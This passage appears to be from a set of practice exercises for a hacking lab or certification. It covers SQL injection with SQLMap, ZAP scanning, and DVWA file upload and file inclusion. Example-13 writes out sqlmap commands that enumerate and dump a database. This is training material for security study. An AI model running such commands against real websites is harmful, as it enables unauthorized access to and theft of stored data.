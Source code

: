 **Suggested lectures:** SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMap THM Free Room)

---

# Example-13
Exploit a web application at www.xxxx.com and enter the flag value from the given page.

**Tips:**
- Find any input parameter on the website and capture the request in Burp Suite, then use it to perform SQL Injection using SQLMap.

Commands:
```bash
$ sqlmap -r <txt_file_from_burpsuite> -D <database_name> --tables
$ sqlmap -r <txt_file_from_burpsuite> -D <database_name> --tables --columns
$ sqlmap -r <txt_file_from_burpsuite> -D <database_name> --dump
$ sqlmap -r <txt_file_from_burpsuite> -D <database_name> --tables -T users
```

**Suggested lectures:** SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMap THM Free Room)

---

# Example-14
Perform vulnerability research and exploit the target at the given site.

**Tips:**
- Scan the target with ZAP to find the vulnerability. Then exploit it. It can be a file upload/File inclusion vulnerability on DVWA.

**Suggested lectures:** DVWA File Upload, File Inclusion

---

# Example-15
Perform SQL Injection on a website and extract the flag value.

**Tips:**
- Use SQLMap.

**Suggested lectures:** SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMap THM Free Room)

---

# Example-16
A file is available in a directory with DVWA. Access the file and enter the contents.

**Tips:**
- Use the file inclusion mechanism to access the file.
